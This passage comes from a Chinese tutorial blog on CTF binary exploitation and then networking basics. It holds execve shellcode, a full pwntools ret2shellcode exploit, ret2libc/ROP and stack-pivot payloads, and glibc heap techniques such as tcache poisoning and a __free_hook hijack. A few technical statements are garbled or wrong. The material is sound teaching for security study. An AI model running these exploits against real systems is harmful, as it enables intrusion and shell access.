0xffffc22c: 返回地址      ← 4 字节 ← 第 72 字节开始
```

所以：**72 字节垃圾 + 4 字节新地址**就能劫持。

**6.2.1.3 准备 shellcode**

我们要执行的机器码。最简单的：弹一个 shell（Linux）或弹计算器（Windows）。

```python
shellcode = (
    b"\x31\xc0"               # xor eax, eax
    b"\x50"                   # push eax
    b"\x68\x2f\x2f\x73\x68"   # push "//sh"
    b"\x68\x2f\x62\x69\x6e"   # push "/bin"
    b"\x89\xe3"               # mov ebx, esp
    b"\x50"                   # push eax
    b"\x53"                   # push ebx
    b"\x89\xe1"               # mov ecx, esp
    b"\xb0\x0b"               # mov al, 0xb (syscall: execve)
    b"\xcd\x80"               # int 0x80
)
```

**6.2.1.4 构造 payload**

我们需要：

1\. 填满 72 字节的垃圾（比如 `0x90` 作为 NOP 滑梯，或任意字母）
2\. 在垃圾数据里**嵌入 shellcode**（比如放在前 24 字节）
3\. 把返回地址覆盖成**栈上 shellcode 的起始地址**

**6.2.1.5 获取 shellcode 地址**

**方法1：用调试器看**

**方法2：NOP 滑梯 + 暴力猜**

**方法3(目前主流方法)：用 pwntools 自动找**

**6.2.1.6 写完整 exploit**

举例：

```python
from pwn import *

# 配置
context.arch = 'i386'
context.log_level = 'debug'

# shellcode（弹 shell）
shellcode = asm(shellcraft.sh())

# 1. 找到偏移（用 pattern 确认过是 72）
offset = 72

# 2. shellcode 地址（需要你调试确认）
# 假设 gdb 里看到 buf 地址 = 0xffffc1e0
shellcode_addr = 0xffffc1e0

# 3. 构造 payload
payload = shellcode                  # 先放 shellcode
payload += b'A' * (offset - len(shellcode))  # 填充垃圾
payload += p32(shellcode_addr)       # 覆盖返回地址

# 4. 发送
p = process('./vuln')
p.sendline(payload)
p.interactive()  # 拿到 shell！
```

如果一切顺利，你会看到：

```bash
$ python3 exploit.py
[+] Starting local process './vuln': pid 12345
[*] Switching to interactive mode
$ whoami
root
$
```

**6.2.1.7 ret2shellcode**

`ret` = 函数返回
`2` = to
`shellcode` = 一段能给你弹 shell 的机器码

合起来就是：**让程序返回到一段恶意代码去执行，这段代码是你临时塞进去的**。

正常程序：

```text
call func
  → 执行 func 里的代码
  → ret 返回
```

ret2shellcode 的思维：

  1\. **写一段恶意代码**（比如弹 shell 的指令）**塞进栈里**
  2\. **把返回地址改成这段恶意代码的起始位置**
  3\. 函数 `ret` 时，CPU 不是跳回正常的地方，而是**跳到你写的那段代码上**

攻击者在**运行时**往内存里**动态写了一段代码**（相当于运行时生成了一个新函数），然后把返回地址改成这个函数的地址。因为攻击者最常见的目的是弹出一个 shell（命令行终端），所以这类恶意代码叫 shellcode。

**6.2.1.8 栈可执行**

现代 CPU 默认：**栈是用来存数据的，不是用来执行代码的**。
如果栈不可执行，跳转到栈上的 shellcode，CPU 直接拒绝运行，报错退出。
**栈可执行**就是告诉 CPU：“栈上的代码我也允许跑”。
CTF 里很多题目为了方便学习，故意关掉这个保护。

#### ret2libc 和 ROP

**问题**：现代系统默认开启NX（栈不可执行），在栈上写的shellcode无法运行。CPU遇到栈上的指令直接报错（Segmentation Fault）。

**解决思路**：既然不能自己写代码，那就**调用程序里已有的代码**。

- `system()` 是libc中的一个函数，它的作用是执行系统命令。`system("/bin/sh")` 就能弹出shell。如果能让程序执行 `system("/bin/sh")`，就达到了同样的目的。

**ret2libc**：控制程序去调用libc库中的函数（如 `system`）。

核心步骤：

1\. **泄露libc地址**（绕过ASLR）：程序运行时，libc加载地址是随机的。必须先知道 `system` 在内存中的真实地址才能调用它。

2\. **计算 `system` 和 `/bin/sh` 的地址**：通过泄露某个已知函数（如 `puts`）的真实地址，算出libc基址，再算出 `system` 和 `/bin/sh` 在内存中的位置。

3\. **构造ROP链**：把 `system` 的地址和 `/bin/sh` 的地址作为参数布置到栈上，然后通过 `ret` 跳到 `system` 执行。

**ROP（Return-Oriented Programming）：**当栈不可执行时，把程序里已有的、以 `ret` 结尾的指令片段（gadget）拼成一条“指令链条”，让程序按攻击者的意图执行。

*64位程序调用函数时，前6个参数不是放栈上，而是放寄存器 `rdi`、`rsi`、`rdx`、`rcx`、`r8`、`r9`。想调用 `system("/bin/sh")`，必须把 `/bin/sh` 的地址放进 `rdi`。你需要一段 `pop rdi; ret` 的gadget来把栈上的值弹进rdi。所以**ROP是必须的***

```assembly
pop rdi ; 把栈顶的值弹出，放进rdi
ret     ; 跳转到rdi指向的地址
```

把gadget地址依次放在栈上，ret时会连续执行这些gadget，这就是ROP链。

**ret2libc + ROP的一个精简示例：**

```c
void vuln() {
    char buf[64];
    gets(buf);
}
```

步骤1：泄露libc地址

```python
# 用 puts 打印某个 GOT 表项的真实地址
payload = b'A'*72           # padding到返回地址
payload += p64(puts_plt)    # 调用 puts
payload += p64(pop_rdi)     # puts 返回后的地址（ROP链）
payload += p64(puts_got)    # 参数：要打印哪个函数的地址
payload += p64(vuln)        # 泄露后重新执行 vuln
```

- 第一次调用 `puts(puts_got)` 时，`puts` 会把自己在内存中的真实地址打印出来。
- 程序重新执行 `vuln`，你可以再次输入payload，这次就能用计算出的真实地址。

步骤2：计算system和"/bin/sh"的地址

```text
libc基址 = 泄露的puts地址 - puts在libc中的偏移量
system_addr = libc基址 + system偏移量
binsh_addr = libc基址 + /bin/sh偏移量
```

- 偏移量可以通过本地libc文件或在线数据库查到。

步骤3：第二次调用system

```python
payload = b'A'*72
payload += p64(pop_rdi)     # 把 /bin/sh 放进 rdi
payload += p64(binsh_addr)
payload += p64(system_addr) # system 执行
```

- 执行 `system("/bin/sh")`，弹出shell。

**✅ ret2libc = 利用已有的 libc 函数（system）拿 shell；ROP = 在 64 位下通过 gadget 拼出参数传递和函数调用流程，解决寄存器传参问题。两者常组合使用，核心是：泄露地址 → 计算偏移 → 构造 gadget 链 → 调用 system。**

#### 栈迁移

栈迁移是当**溢出空间不够写长 ROP 链**时的解决方案。

- 一个 gadget 地址占 8 字节（64 位）。
- 一个简单的 ROP 链可能就需要 5-6 个 gadget。
- 16 字节只够填 2 个地址，根本不够用。

**解法**：把 ROP 链写在其他地方（堆、bss、数据段），然后把栈指针 `rsp` **迁移**过去，让 CPU 在新位置执行 ROP 链。

**栈迁移的核心：`leave; ret`**

```assembly
mov rsp, rb		; rsp = rbp（把栈顶移到 rbp 的位置）
pop rbp			; 恢复旧的 rbp 上两行等于 leave

pop rip			; 等于 ret
```

前提：

- 已知一个**可写且有足够空间**的内存地址（如 `.bss` 段、堆地址、已知数据段）。
- 能在该地址提前写入 ROP 链。

**步骤**

1\. **第一次溢出**：把 ROP 链写到已知地址（比如 `bss_addr`）。

2\. **布置 fake rbp**：把 `rbp` 覆盖成 `bss_addr` 附近的值（让 `leave` 后的 `rsp` 指向 ROP 链）。

3\. **触发 `leave; ret`**：通过覆盖返回地址为 `leave_ret` 的 gadget，执行迁移。

```python
# 第一次 payload：在 bss 段写入 ROP 链
write_to_bss(rop_chain)

# 第二次溢出：栈迁移 payload
payload = b'A' * offset          # padding 到 rbp
payload += p64(bss_addr - 8)     # fake rbp（让 pop rbp 后 rbp 指向 bss 区域）
payload += p64(leave_ret_addr)   # 返回地址：执行 leave; ret
```

执行流程：

1\. `ret` 跳到 `leave_ret`。

2\. `leave` 执行：`mov rsp, rbp` → `rsp` 指向 `fake rbp` 的位置；`pop rbp` → `rbp` 变成 `bss_addr - 8` 里存的值（不重要）。

3\. `ret` 执行 → `rip` 弹出 ROP 链的第一个地址。

4\. CPU 开始在 `bss` 段执行 ROP 链。

**栈迁移 = 把 ROP 链从栈搬到别处（bss/堆），然后通过 `leave; ret` 把 `rsp` 指向新位置，解决栈空间不够写长 ROP 链的问题。核心是控制 `rsp` + 目标地址可写。**

#### tcache（堆利用）

tcache（thread caching，线程缓存）是 glibc 2.26+ 引入的**小堆块缓存机制**，目的是提升多线程程序的性能。

***glibc** 是 **GNU C Library** 的缩写，它是 Linux 系统上最核心的 C 语言运行库，是几乎所有程序与操作系统内核之间的“桥梁”。*

本质上，每个线程有自己的 tcache（单链表结构，最多缓存 7 个大小相同的 chunk，每个大小的最大缓存数量为 7），`free` 掉的小 chunk 优先进入 tcache，`malloc` 优先从 tcache 拿。

1\. tcache poisoning（最常用）

```python
# 假设已获得一次任意地址写（如堆溢出、UAF）
# 目标：改写 tcache bin 的 next 指针为 fake_addr

fake_addr = __free_hook - 0x10   # __free_hook 是 glibc 中的函数指针

# 改写 tcache bin 的 next 指针
edit_chunk(p64(fake_addr))

# 两次 malloc，第二次拿到 fake_addr
malloc(0x28)   # 第一次，返回原 chunk
malloc(0x28)   # 第二次，返回 fake_addr
```

**拿到 fake_addr 是为了劫持 `__free_hook` 为 `system` 地址**。

调用 `free(chunk_with_content_binsh)` → `system("/bin/sh")`

2\. tcache dup（double free）

```c
// 正常 fastbin：double free 会崩溃（检测到 chunk 已在链表里）
// tcache：double free 不检查
free(ptr);
free(ptr);  // 同一个 ptr 两次释放进 tcache

// 两次 malloc 拿到同一块内存
ptr1 = malloc(0x28);
ptr2 = malloc(0x28);
// ptr1 == ptr2 → 可制造 UAF
```

先填满tcache（7 次 malloc + 7 次 free 同大小 chunk），再释放一个 chunk → 进入 unsorted bin → 泄露 `main_arena+96` 地址 → 计算 libc 基址，再分配一个 chunk，把 unsorted bin 的 chunk 取走，同时 tcache 依然是满的。

**✅ tcache 是 glibc 2.26+ 引入的小堆块缓存，特点是检查少、利用简单。核心利用思路：填满 tcache → 泄露 libc → tcache poisoning（改 next 指针）→ malloc 返回 `__free_hook` → 改 `__free_hook` 为 `system` → 触发 shell。**

#### fastbin dup（堆）

*fastbin dup 是早期堆利用的核心技术。*

- fastbin 是 glibc 用来管理 **小块内存（32–128 字节）** 的缓存机制，采用 **单链表（LIFO）** 结构，目的是加速小内存分配。

*tcache 优先使用，tcache 满了才进 fastbin。*

fastbin dup 是 **利用 fastbin 的 double free（同一块内存释放两次）** 来制造内存重叠，最终实现任意地址写的堆利用技术。

在某些条件下，fastbin 允许 double free。glibc 2.26 前的 fastbin 只检查链表的 **第一个 chunk** 是否与当前释放的 chunk 相同。

**绕过方法**：释放序列 `A → B → A`（中间的 B 让检查失效）

**利用流程**

分配三个大小相同的 chunk（如 0x30 大小）：**A、B、C**

注意 fastbin 的 chunk 大小计算：用户申请 0x30 字节，实际 chunk 大小为 `0x30 + 8`（prev_size + size）再对齐，所以 `malloc(0x28)` 得到 0x30 的 chunk。

制造 double free。

```python
# 三个 chunk 都是 0x30 大小（实际 chunk size = 0x31）
free(A)   # fastbin → A
free(B)   # fastbin → B → A
free(A)   # fastbin → A → B → A（double free，检查绕过）
```

此时链表结构：`A → B → A`

第一次 malloc，拿到 A。

```python
malloc(0x28)  # 返回 A，fastbin 变成 B → A
```

改写 A 的 fd 指针。

```python
# 此时 A 已经分配出去，可以改写它的内容
edit(A, p64(fake_addr))   # A.fd = fake_addr
```

fastbin 链表变成：`B → A → fake_addr`

第二次 malloc，拿到 B。

```python
malloc(0x28)  # 返回 B，fastbin 变成 A → fake_addr
malloc(0x28)  # 返回 A，fastbin 变成 fake_addr
malloc(0x28)  # 返回 fake_addr（目标地址）
```

**至此，成功地拿到了一块指向 `fake_addr` 的内存，可以任意写该地址。**

#### UAF（Use After Free）

UAF（Use After Free）是指内存被 `free` 释放后，指针没有置空，后续代码**再次使用这个悬空指针**去读/写/执行已经被释放的内存。

```c
char *ptr = malloc(0x20);   // 分配一个地址
strcpy(ptr, "hello");
free(ptr);                  // 释放，但 ptr 没有被置 NULL
// ... 后续代码 ...
printf("%s\n", ptr);        // ❌ UAF！使用已释放的指针
```

内存被 `free` 后，会回到堆管理器（进入 tcache / fastbin / unsorted bin）。下次 `malloc` 相同大小时，堆管理器会把这同一块内存重新分配出去。

1\. malloc(0x20) → 得到 chunk A（指针 p 指向它）

2\. free(p)      → chunk A 进入 tcache（指针 p 依然指向这个地址）

3\. malloc(0x20) → 堆管理器把 chunk A 重新分配出去（指针 q 指向它）

4\. 通过 p 写数据 → 改写的正是 q 指向的内存      ← UAF 攻击点

在内存被重新分配后，通过旧指针改写其中的关键数据（如函数指针、`fd` 指针）。如果重新分配出去的是某个控制结构（如 `FILE` 结构体、`__free_hook`），就能劫持控制流。

**代码正确做法**：`free` 后立即 `ptr = NULL`

#### bin 结构

> 为什么需要不同的 Bin ？

堆管理器一次从内核拿一大块内存（top chunk），用户 `free` 后不能直接还给内核（那样太慢），而是先放进 bin 里，下次 `malloc` 时优先从 bin 里找合适的空闲块。

**Bin 的总览**

1\. **tcache**（glibc 2.26+）—— 最快，LIFO，无检查

2\. **fastbin**（0x20-0x80）—— 快，LIFO，有简单检查

3\. **unsorted bin**（中转站，FIFO）

4\. **small bin**（< 512 字节，FIFO）

5\. **large bin**（≥ 512 字节，双向链表，按大小排序）

**注意**：tcache 优先级最高，所以现代堆利用 **优先打 tcache**，只有当 tcache 满了或被填满时才轮到其他 bin。

```text
free(chunk)
│
├── 大小在 tcache 范围 & 对应 bin 未满 → tcache
│
├── 大小在 fastbin 范围（0x20–0x80）→ fastbin
│
└── 其他大小 → unsorted bin
					│
				(malloc 时整理)
					↓
				small bin / large bin
```

```text
malloc(size)
│
├── tcache 有 → 取 tcache
│
├── fastbin 有（对应大小） → 取 fastbin
│
├── small bin 有 → 取 small bin
│
├── large bin 有 → 取 large bin（切割）
│
└── 都无 → 遍历 unsorted bin，整理进 small/large bin，再分配
```

#### 泄露

**ASLR（地址空间布局随机化）**：每次程序运行时，libc、堆、栈的基址都会随机变化。直接硬编码 `system` 的地址（如 `0x7f8a2c123456`）在开启 ASLR 时不可行。

先通过漏洞**泄露**某个已知函数的真实地址，计算出 libc 基址，再推算出 `system`、`__free_hook`、`one_gadget` 等目标地址。

核心公式

```text
libc_base = leaked_addr - offset_in_libc
target_addr = libc_base + target_offset
```

**泄露的常见目标：**

1\. 某个 libc 函数的 GOT 表项（如 `puts`、`printf`、`gets`）。

2\. unsorted bin 中 chunk 的 `fd` 指针（指向 `main_arena+96`）。

3\. 堆地址（需要时泄露 heap_base）。

**1. 通过 GOT 表泄露（最简单）**

```python
# 利用栈溢出或格式化字符串，打印某个函数的 GOT 地址
payload = b'A'*offset
payload += p64(puts_plt)   # 调用 puts
payload += p64(pop_rdi)    # puts 的参数
payload += p64(puts_got)   # 要打印的是 puts 的真实地址
payload += p64(main)       # 泄露完后重新执行 main
```

收到的输出就是 `puts` 在内存中的真实地址。

**2. 通过 unsorted bin 泄露（堆利用专用）**

```python
# 1. 分配一个大于 fastbin 范围的 chunk（如 0x100）
# 2. free 掉，chunk 进入 unsorted bin
free(chunk)

# 3. 通过 UAF 或堆溢出，打印该 chunk 的 fd 指针
leak = u64(show_unsorted_chunk()[:8])

# 4. 计算 libc 基址
libc_base = leak - offset_of_main_arena - 96
```

unsorted bin 中唯一空闲 chunk 的 `fd` 指针指向 `main_arena` 结构体内部固定偏移处，这个偏移在 libc 中是已知的常量（不同版本不同，但可通过工具或本地找）。

**3. 通过格式化字符串泄露**

```python
# 利用 %p 或 %x 打印栈上的值
# 找到栈上保存的 libc 地址（如 __libc_start_call_main 的返回地址）
payload = b'%p.' * 100
# 解析输出，找到 libc 地址，减去偏移得到 libc_base
```

**4. 通过其他手法泄露堆地址**

```text
某些利用需要知道 heap_base（如 large bin attack 的后续）
泄露方式：
- 打印 tcache 中空闲 chunk 的 next 指针（指向堆内地址）
- 打印 fastbin 中 chunk 的 fd 指针
```

**✅ 泄露是通过漏洞（打印 GOT、unsorted bin fd、栈上残留地址）拿到 libc 基址。**

#### 任意地址写

有了泄露地址，下一步是**往这个地址写入一个值**（如 `system` 写到 `__free_hook`）。

**1. tcache poisoning（最常用，最方便）**

```python
# 前提：能改写 tcache chunk 的 next 指针（如 UAF、堆溢出）

# 1. 申请一个 chunk，释放进 tcache
p = malloc(0x28)
free(p)                        # p 进入 tcache bin[0x30]

# 2. 改写 p 的 next 指针为目标地址
edit(p, p64(target_addr))      # target_addr 如 __free_hook

# 3. 两次 malloc，第二次返回 target_addr
malloc(0x28)                   # 把 p 弹出去
malloc(0x28)                   # 返回 target_addr

# 4. 往 target_addr 写值
edit(target_addr, p64(system_addr))
```

**2. fastbin dup（glibc 2.26 前）**

```text
前提：能实现 double free（如 A→B→A 序列）

1. 申请三个 chunk A、B、C
2. free(A); free(B); free(A)  制造 double free
3. malloc 第一次拿到 A，改写 A.fd = target_addr
4. malloc 第二次拿到 B，malloc 第三次拿到 target_addr
```

**3. unsorted bin attack（写一个值）**

```python
# 前提：能改 unsorted bin chunk 的 bk 指针

# 改 bk 为目标地址减 0x10（具体偏移看版本）
edit(chunk, p64(0) + p64(target_addr - 0x10))

# 下一次 malloc 时，会往 target_addr 写一个 libc 地址（main_arena 内部地址）
# 缺点：只能写一个堆地址/libc 地址，不能任意写任意值，一般用于改 global_max_fast
```

**4. large bin attack（写一个堆地址）**

```text
高版本 glibc（2.31+）仍然可用的手法
能往任意地址写一个堆地址（常用于改 hook、改 _IO_list_all）
```

泄露 + 任意地址写的流程

```python
# 1. 泄露 libc 地址
leak = leak_libc()
libc_base = leak - offset

# 2. 计算目标地址
free_hook = libc_base + libc.symbols['__free_hook']
system_addr = libc_base + libc.symbols['system']

# 3. 构造任意地址写，把 free_hook 指向 system
# 3.1 先通过 tcache poisoning 拿到 free_hook 地址的 chunk
fake_chunk = malloc(0x28)
free(fake_chunk)
edit(fake_chunk, p64(free_hook))
malloc(0x28)  # 弹掉 fake_chunk
real_hook = malloc(0x28)  # 拿到 free_hook

# 3.2 往 free_hook 写 system
edit(real_hook, p64(system_addr))

# 4. 触发 payload
# 4.1 申请一个 chunk，写入 "/bin/sh"
binsh = malloc(0x28)
edit(binsh, b'/bin/sh\x00')

# 4.2  free 这个 chunk → free_hook(binsh) → system("/bin/sh")
free(binsh)
```

**✅ 意地址写是通过堆利用（tcache poisoning、fastbin dup）让 `malloc` 返回目标地址，然后往里写值。两者结合：先泄露计算地址，再任意地址写完成控制流劫持（如 `__free_hook` → `system`）。**

### 6.3 通用流程

**checksec → 找漏洞 → 泄露地址 → 选打法 → 构造 payload → 发 exp → 拿 shell。**

**第一步：信息收集（checksec）**

判断优先级：

- NX 关 → ret2shellcode
- NX 开 + Canary 关 + PIE 关 → ret2libc
- 堆题 → UAF / tcache / fastbin
- 格式化字符串 → 泄露 + 任意地址写

**第二步：找漏洞点（逆向）**

用 IDA / Ghidra 找危险函数（`gets`、`strcpy`、`free` 等）

记录溢出长度（看 `buf` 与返回地址的距离）、危险函数所在位置、是否有后门函数（`system("cat flag")` 等）

**第三步：交互与调试**

调试目标：验证偏移（cyclic 定位）、确认程序流程、泄露地址

**第四步：根据漏洞类型选打法**

栈溢出找偏移，堆看申请、释放，格式化字符串观察泄露栈上偏移

**第五步：泄露地址（ASLR 绕过）**

| 方法            | 适用场景            | 代码片段                    |
| :-------------- | :------------------ | :-------------------------- |
| GOT 泄露        | 栈溢出 + 有输出函数 | `puts(puts_got)`            |
| unsorted bin fd | 堆题                | `show(unsorted_chunk)`      |
| 格式化字符串    | 任意                | `%p` 找到栈上残留 libc 地址 |

**第六步：构建 Exp 骨架**

```text
代码主体逻辑：
1. 泄露地址
2. 计算目标地址
3. 构造任意地址写
4. 触发 shell
```

**第八步：远程测试**

```bash
# 本地通了之后
p = remote('target.com', 1337)
# 把 gdb.attach 注释掉
# 跑 exp，拿 shell
```

---

## 第七部分：Web 安全相关的系统知识

### 7.1 网络与协议基础

> 网络是什么？

简单说，网络就是**多台设备连在一起，能互相传数据**。

局域网（LAN）—— 自家的 WiFi

互联网（WAN）—— 百度、bilibili

> 协议是什么？

**协议就是“约定好的规矩”**。两台设备要通信，必须遵守同一套规则，否则互相听不懂。

| 协议      | 全称                          | 作用                                             |
| :-------- | :---------------------------- | :----------------------------------------------- |
| **IP**    | Internet Protocol             | 定位设备（门牌号）                               |
| **TCP**   | Transmission Control Protocol | 可靠传输（保证数据不丢、不乱序）                 |
| **UDP**   | User Datagram Protocol        | 快速传输（不保证到达，适合视频、游戏）           |
| **HTTP**  | HyperText Transfer Protocol   | 网页浏览                                         |
| **HTTPS** | HTTP + SSL/TLS                | 加密的网页浏览                                   |
| **DNS**   | Domain Name System            | 把域名（[baidu.com](https://baidu.com/)）转成 IP |

日常访问网页比如访问百度 `http://baidu.com/`，其实实际上访问的是 `http://baidu.com:80/`

。`:` 前面的是 IP 地址，`:` 后面的是端口。

**IP 地址**：找到哪台设备。（找到哪栋楼）

**端口**：找到设备上的哪个程序。（找到楼里的哪个门牌号）

| 端口 | 服务              |
| :--- | :---------------- |
| 80   | HTTP（网页）      |
| 443  | HTTPS（加密网页） |
| 22   | SSH（远程登录）   |
| 3306 | MySQL（数据库）   |

> 为什么下载尽量不去应用商店？

1\. 应用商店的问题

**抽成**：苹果 App Store、Google Play 等应用商店抽成 15%-30%。

**版本滞后**：应用商店审核慢，版本往往不是最新的。

**功能阉割**：某些功能因应用商店政策被砍（如内购、第三方支付）。

**找不到应用**：很多工具、开源软件、开发工具不上应用商店。

**区域限制**：某些 App 在你所在地区不提供。

举例：微软 Office 在官网可以下载完整版，应用商店里可能是“阉割版”或需要订阅；Steam 上的游戏，你去其他商店买，抽成更高或拿不到 Steam 特有的功能（创意工坊，联机）。

**正确下载渠道**：

首选去官网下载，拥有最新、最完整的功能。（缺点：需要自己找。不会找的可能会下载到病毒）

然后如果是电脑游戏的话就上 Steam 找，大多数游戏都会在里面找到。（只限游戏）

如果是手机游戏的话就上 TapTap 找。（只限游戏）

其次是 GitHub，无官网的一般都会选择在这里发布，代码开源且免费。（缺点：需要梯子，否则速度特慢。）

最后是应用商店，一般是手机 App，因为手机更新频率高，一键更新很方便，但是也仅仅是方便，该用官网的用官网。

**找官网的标准方法**

搜索格式：软件名 + 官网

大部分正规软件的官网会在前三个结果里。

不行就问ai是不是官网

*下载多了一眼就知道哪个是官网哪个是伪造的*

> 什么是 Steam？什么是 TapTap？

Steam 是全球最大的**正版游戏购买和下载平台**，相当于“游戏界的 App Store”（国内需要加速器）。

唯一官网：[store.steampowered.com](https://store.steampowered.com/)

TapTap 是一个**手机游戏社区 + 下载平台**，主打“游戏玩家发现和分享好游戏”，有点像“游戏界的豆瓣 + 小红书”，是**手机游戏界的 Steam**（但免费游戏为主）。

> 什么是 GitHub？什么是开源？它们为什么总是放在一起？

GitHub 是全球最大的**代码托管平台**，程序员在上面存代码、协作开发、分享开源项目。可以理解为“代码界的百度网盘 + 朋友圈 + 知乎”。

本博客就是基于 GitHub 搭建的博客网站。

功能：

**存代码**：把代码上传到云端，不怕丢，随时下载。

**版本管理**：记录每次改了什么，能回退到任意历史版本。

**协作开发**：可以多人一起写代码，不会互相覆盖。

**开源项目**：别人能看到你的代码，你也可以看别人的，学习、修改、提建议。

**个人主页**：程序员的名片，展示你写的项目。

**问题讨论**：Issues（类似论坛），讨论 bug、新功能。

**代码审查**：Pull Request（简称 PR），提交代码让别人审核

主要的使用方式在网页端（[github.com](https://github.com/)）。搭配命令行工具 git（主要是克隆项目用）

**开源** = 代码公开，别人可以看、用、改、分发。开源是一种**许可证**（Licence），规定了别人能用你的代码做什么。

**好处**：自己项目：别人帮项目找 bug、修 bug，帮项目加新功能，让项目更加完善好用。

别人的项目：可以学别人怎么写代码。

GitHub 是**平台**，托管代码的地方。开源是**理念**，代码公开共享。

GitHub 是最大的开源项目聚集地，但有些 GitHub 项目是私有仓库。（不过这些都看不见）

GitHub 上的常见术语

| 术语                   | 含义                                                         |
| :--------------------- | :----------------------------------------------------------- |
| **Repository（仓库）** | 一个项目的代码和文件                                         |
| **Star**               | 点赞，表示你“收藏”了这个项目                                 |
| **Fork**               | 复制别人的项目到你自己的账号下（然后你可以随便改）           |
| **Pull Request（PR）** | 你改完别人的项目后，提交合并请求，作者审核后可以把你改的加进去 |
| **Issue**              | 讨论区，提 bug、问问题、建议功能                             |
| **Release（安装包）**  | 发布版本，打 tag + 提供下载包（如 `.exe`、`.zip`）           |
| **README**             | 项目介绍，写在首页                                           |
| **License**            | 许可证，说明别人能用你的代码做什么                           |
| **Clone**              | 把代码从 GitHub 下载到你电脑                                 |
| **Push**               | 把你电脑上的修改上传到 GitHub                                |
| **Commit**             | 一次修改记录（“提交”）                                       |

下载打包好的安装包就点项目右侧的 Release。

### 7.2 Web请求的底层旅程

从浏览器地址栏输入URL到页面加载完成，中间经过**DNS解析→TCP连接→TLS握手（HTTPS）→HTTP请求发送→服务器处理→响应返回→浏览器渲染**，每一层都涉及用户态与内核态的切换、系统调用、协议栈处理。

- URL（Uniform Resource Locator，统一资源定位符）就是网页地址，它告诉浏览器**用什么方式、去哪找、找哪个资源**。

```http
https://www.example.com:443/path/to/page?name=张三&age=25#section1
```

| 组成部分        | 例子                | 作用                                 |
| :-------------- | :------------------ | :----------------------------------- |
| **协议**        | `https://`          | 怎么去（用什么规则通信）             |
| **用户名/密码** | `user:pass@`        | 身份认证（现在很少用）               |
| **域名/IP**     | `www.example.com`   | 去哪找（服务器的地址）               |
| **端口**        | `:443`              | 找哪个门（服务器的具体入口）         |
| **路径**        | `/path/to/page`     | 找哪个文件（资源在服务器上的位置）   |
| **查询参数**    | `?name=张三&age=25` | 附加条件（传给服务器额外信息）       |
| **锚点**        | `#section1`         | 定位到页面哪个位置（不发送给服务器） |

**1. 协议**

- 常见：`http://`、`https://`、`ftp://`、`file://`
- 作用：告诉浏览器用什么规矩和服务器说话

**2. 域名/IP**

- 域名：`www.google.com`（给人看的）
- IP地址：`142.250.185.46`（电脑看的）
- DNS服务器负责把域名翻译成IP

**3. 端口**

- 同一台服务器上有多个服务，用端口区分
- http默认端口：80（可以省略不写）
- https默认端口：443（可以省略不写）
- 非标准端口必须写：`http://localhost:8080`

**4. 路径**

- 格式：`/文件夹/子文件夹/文件名`
- 对应服务器上的文件系统位置（也可能是虚拟的）

**5. 查询参数**

- 格式：`?key1=value1&key2=value2&key3=value3`
- 多个参数用`&`分隔
- 特殊字符要编码（如空格变成`%20`，中文变成`%E5%BC%A0`）

**6. 锚点**

- 格式：`#锚点名`
- 锚点前面的部分发给服务器，锚点本身**不发送**
- 浏览器拿到页面后，滚动到锚点对应的位置

**6.1.1 简单的完整旅程**

```text
[浏览器地址栏] https://www.example.com:443/index.html
       │
       ▼
1. DNS解析       ← 域名 → IP（系统调用：getaddrinfo / getnameinfo）
       │
       ▼
2. TCP连接       ← 三次握手和四次挥手（系统调用：socket, connect）
       │
       ▼
3. TLS握手       ← 密钥交换、证书验证（仅HTTPS）
       │
       ▼
4. HTTP请求发送  ← 构造请求报文（系统调用：write / send）
       │
       ▼
5. 网络传输      ← 数据包经网卡、路由器、骨干网
       │
       ▼
6. 服务器处理    ← Web服务器（Nginx/Apache/IIS）→ 后端应用
       │
       ▼
7. 响应返回      ← 读取响应（系统调用：read / recv）→ 浏览器渲染
```

**第1步：DNS解析（域名 → IP）**

DNS（Domain Name System，域名系统）就是互联网的**电话簿**。它把人类好记的域名（比如 `www.baidu.com`）翻译成电脑能懂的IP地址（比如 `110.242.68.66`）。

**DNS解析过程**
在浏览器输入 `www.baidu.com` 后：

1. **浏览器缓存**：先看看自己最近有没有记过这个地址
2. **操作系统缓存**：浏览器没找到，问操作系统（比如hosts文件）
3. **本地DNS服务器**：电脑还没记录，只能去问运营商分配的DNS服务器
4. **根域名服务器**：本地DNS不知道，就去问顶层的“根服务器”，根服务器告诉它去问 `.com` 服务器
5. **顶级域名服务器**：`.com` 服务器告诉它去问 `baidu.com` 的服务器
6. **权威域名服务器**：`baidu.com` 的服务器最终给出答案 `110.242.68.66`
7. **返回结果**：原路返回，IP地址送到你的浏览器，浏览器发起请求

**术语解释**

- **根域名服务器**：全球13组，是DNS世界的“总导航台”，是查找的起点
- **权威域名服务器**：每个域名自己真正的“登记处”，最准确的来源
- **域名解析**：从域名查到IP地址这个完整过程
- **逆向查询**：从IP地址反查域名（比如查某个IP绑了哪个网站）

**记录类型**

- **A记录**：域名 → IPv4地址，最常用
- **AAAA记录**：域名 → IPv6地址
- **CNAME记录**：别名，比如 `www` 指向 `@`
- **MX记录**：邮件服务器地址
- **NS记录**：指定这个域名的DNS服务器是哪台

**安全相关**：

- **DNS重绑定**：攻击者控制DNS服务器，先返回正常IP，浏览器同源检查通过后，改返回内网IP，绕过同源策略访问内网服务
- **DNS隧道**：通过DNS协议传输数据（DNS请求/响应包，防火墙通常放行53端口）
- **DNS欺骗/劫持**：修改DNS响应，把用户导向钓鱼网站

**第2步：TCP连接**

**TCP 是一种面向连接、可靠、基于字节流的传输层协议。** 它确保数据完整无损、顺序正确。

TCP 的数据格式（简化）

| 源端口 | 目标端口 | 序号 | 确认号 | 标志位 | 数据 |

- **源端口/目标端口**：哪个程序发给哪个程序（结合IP地址定位到具体进程）
- **序号**：这个数据包是第几个字节（用于排序和重传）
- **确认号**：我已经收到第几个字节了，你接着发后面的
- **标志位**：SYN（握手）、ACK（确认）、FIN（再见）、RST（重置连接）

**TCP 建立连接：三次握手**

